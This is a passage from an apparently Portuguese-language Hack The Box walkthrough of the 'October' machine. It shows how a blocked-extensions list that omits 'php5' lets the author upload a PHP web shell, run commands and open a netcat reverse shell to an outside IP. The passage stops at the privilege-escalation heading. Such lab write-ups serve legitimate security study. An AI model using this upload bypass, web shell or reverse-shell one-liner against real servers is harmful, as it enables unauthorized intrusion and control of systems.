 ```
106 <?php
107 protected function blockedExtensions()
108 {
109         return [
110                 // redacted
111                 'php',
112                 'php3',
113                 'php4',
114                 'phtml',
115                 // redacted
116         ];
117 }
```

Sim, show de bola isso, só que ele esqueceu de colocar a php5, que é php válido... então se uparmos um arquivo com extensão php5 temos acesso ao servidor

Vamos lá

Clique em `media`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_back5.png)

Realizamos upload de um shell php

```
<?php system($_REQUEST['cmd']); ?>
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_back6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_back7.png)

Ali no lado em `Click Here` sinaliza o local onde foi colocado o arquivo

> http://10.10.10.16/storage/app/media/cmd.php5

Então, vamos testar e pegar uma reverse shell

## Teste RCE e Reverse Shell

Sim! Temos RCE!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_rce.png)

Agora, pegamos uma reverse shell

```
http://10.10.10.16/storage/app/media/cmd.php5?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.16.92%20443%20%3E/tmp/f
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_rev.png)

# Escalação de Privilégio
